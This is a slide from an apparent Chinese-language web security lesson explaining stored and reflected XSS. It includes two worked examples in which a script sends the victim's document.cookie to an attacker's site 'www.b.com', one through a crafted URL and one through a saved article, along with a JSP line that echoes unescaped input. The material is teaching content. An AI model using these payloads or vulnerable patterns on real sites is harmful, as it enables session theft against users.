

2
Web安全策略
XSS（Cross SiteScript）
中文名称：跨站脚本攻击。为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故缩写为XSS。其原理是攻击者向有XSS漏洞的网站中输入(传入)恶意的HTML代码，当其它用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如，盗取用户Cookie、破坏页面结构、重定向到其它网站等。
XSS攻击分为：存储型和反射型
1、存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie（虽然还有种DOM型XSS，但是也还是包括在存储型XSS内）。
2、反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。

相关攻击示例
1、当我登录网站a后，我发现它的页面某些内容是根据url中的一个叫content参数直接显示的，猜测它的页面处理可能为：
<body>页面内容：<%=request.getParameter("content")%></body>
同时我知道了某人的也注册了该网站，并且知道他的邮箱地址，于是做了一个超链接发给他，超链为：
http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>
当他点击超链接时，浏览器就会打开网站b，并把网站a中的cookie信息发送给网站b。网站b是由我搭建的，于是我就盗取了他在网站a的cookie信息。cookie里可能包含敏感信息。
2、比如网站a可以发表文章，我登录了网站发布了一遍文章并保存，文章中包含了恶意代码，比如：
<script>window.open(“www.b.com?param=”+document.cookie)</script>
当他人查看这篇文章时就中招了，cookie信息将发送到网站b。我就可能窃取到他们的敏感信息。